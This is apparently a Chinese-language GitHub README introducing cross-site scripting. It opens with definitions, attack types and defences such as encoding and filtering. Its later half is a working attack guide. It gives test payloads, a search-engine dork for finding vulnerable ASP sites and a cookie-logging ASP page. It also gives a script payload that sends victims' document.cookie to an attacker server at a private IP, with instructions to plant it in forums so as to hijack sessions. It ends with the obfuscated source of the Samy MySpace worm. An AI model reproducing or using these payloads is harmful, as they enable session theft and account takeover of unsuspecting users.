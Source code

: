 # xss-introduce
xss introduce
理解XSS的攻击手段和原理
掌握xss攻击的防范措施
了解XSS的定义
跨站脚本漏洞将允许攻击者在一个网站中执行恶意脚本，OWASP给出的XSS漏洞定义如下：
“一名攻击者可以利用XSS漏洞向不知情的用户发送恶意脚本。终端用户的浏览器无法确定这些脚本是否可信任，并且会自动运行这些恶意脚本。因为它会认为这个脚本来自一个可信任的源，而恶意脚本将访问浏览器中保存的cookie、会话token或其他的敏感信息，并利用这些信息来完成其他的恶意目的，而有些脚本甚至还可以修改页面的HTML代码。”


理解xss的原理（必备）
理解xss的攻击方式
掌握xss的防御措施

理解XSS攻击方式：
反射型：发出请求时，XSS代码出现在URL中（典型的特征，攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应（），XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程想一次反射，故叫反射型XSS
演示：构建Node应用，演示反射型XSS攻击

存储型：差别在于提交的代码会存储在服务器端（数据库，内存，服务系统等）下次请求页面时不用再提交XSS代码。
1)反射型XSS: 就如上面的例子，也就是黑客需要诱使用户点击链接。也叫作"非持久型XSS“(Non-persistent XSS)
2)存储型XSS:把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景是，黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
3)DOM based XSS:也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。
XSS脚本怎么进入服务端？
XSS防御措施：
编码：不能对用户所有输入保持原样
对用户输入的数据进行HTML Entity编码
 
过滤：把输入不合法的过滤掉，保持安全性
移除用户上传的DOM属性，如onerror，onclick等
移除用户上传的Style节点，script节点，iframe节点等
对于开发人员来说，首先需要注意的是应该对所有用户提交的内容执行坚如磐石输入验证。这包括网址，查 询字符串，header，POST 数据等所有用户提交的内容。只接受您所希望的字符，在您指定的长度内，和指定 的相应的数据的格式。组织，过滤，或忽略一切。 2. 保护被自动执行或来自第三方网站执行的所有敏感功能。在适当的情况使用会话令牌 27、验证码 28系统或者 HTTP 引用头检查。 3. 如果您的网站必须支持用户提供的 HTML，那么你是处在一个安全明智的下滑坡。然而，也有一些事情可以 做，来保护您的网站。请确保您收到的 HTML 内容是良好的，只包含最少的一组安全标签（绝对没有 JavaScript）， 没有包含任何引用远程的内容（尤其是样式表和 JavaScript）。而且，为了多一点的安全性，请将 httpOnly29添 加到您的 cookie

校正：破坏了正常的页面结构，也是一种XSS攻击
避免直接都HTML Entity解码
使用DOM Parse（文本转成DOM结构）转换，校正不配对的DOM标签 

掌握XSS的防御措施
实战：
构建Node服务和建立一个评论，实例演示XSS的攻击预防


Xss攻击常见测试语句
<scrtpt>alert(‘test’)</script>
<svg onload=alert(‘test’)>


http://www.ocelltech.com/en/so.asp
search：inurl:'Product.asp?BigClassName'//google
中华网
*/><script>alert(1)</script>
把alert里面的内容换成document.cookie就可以
*/><script>alert(document.cookie)</script>
一般的做法是<html>
<title>xx</title>
<body>
<%testfile = Server.MapPath("code.txt") //先构造一个路径，也就是取网站根目录，创造一个在根目录下的code.txt路径，保存在testfile中
msg = Request("msg")   //获取提交过来的msg变量，也就是cookie值
set fs = server.CreateObject("scripting.filesystemobject")//创建一个fs对象
set thisfile = fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")//像code.txt中写入获取来的cookie
thisfile.close()   //关闭
set fs = nothing%>
</body>
</html>




把上述文件保存为cookie.asp文件，放到你自己的网站服务器下。比如这里我们自己搭建的服务器为：http://10.65.20.196:8080。 
XSS构造语句
<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>
把上述语句放到你找到的存在XSS的目标中，不过这里最好是存储型xss，比如你找到了某个博客或者论坛什么的存在存储型XSS，你在里面发一篇帖子或者留上你的评论，内容就是上述语句，当其他用户或者管理员打开这个评论或者帖子链接后，就会触发，然后跳转到http://10.65.20.196:8080/cookie.asp?msg=’+document.cookie的页面，然后当前账户的coolie信息就当成参数发到你的网站下的文件里了。然后的然后你就可以那这个cookie登陆了


Samy蠕虫源码
1.<div id=mycode style="BACKGROUND:url('java  
2.script:eval(document.all.mycode.expr)')"expr="var B=String.fromCharCode(34);varA=String.fromCharCode(39);function g(){varC;try{varD=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return 
3.C}else{return eval('document.body.inne'+'rHTML')}}function 
4.getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){varE=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(varO=0;O<F.length;O++){varI=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;varAS=getQueryParams();varL=AS['Mytoken'];varM=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}functiongetClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}functionparamsToString(AV){var N=new 
5.String();var O=0;for(var P 
6.in AV){if(O>0){N+='&'}varQ=escape(AV[P]);while(Q.indexOf('+')!=-1){QQ=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){QQ=Q.replace('&','%26')}N+=P+'='+Q;O++}return 
7.N}function httpSend(BH,BI,BJ,BK){if(!J){return 
8.false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return 
9.true}function findIn(BF,BB,BC){varR=BF.indexOf(BB)+BB.length;varS=BF.substring(R,R+1024);returnS.substring(0,S.indexOf(BC))}functiongetHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';varV=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else 
10.if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=newActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return 
11.Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);varAD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);varAF;if(AE){AEAE=AE.replace('jav'+'a',A+'jav'+'a');AEAE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' 
12.but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}varAU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AGAG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var 
13.AR=getFromURL(AU,'Mytoken');var 
14.AS=new 
15.Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&MytokenMytoken='+AR,postHero,'POST',paramsToString(AS))}}}functionpostHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var 
16.AS=new 
17.Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
18.main(){var AN=getClientFID();varBH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&MytokenMytoken='+L,processxForm,'GET')}functionprocessxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var 
19.AS=new 
20.Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to 
21.Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
22.httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return 
23.false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return 
24.true}"></DIV> 
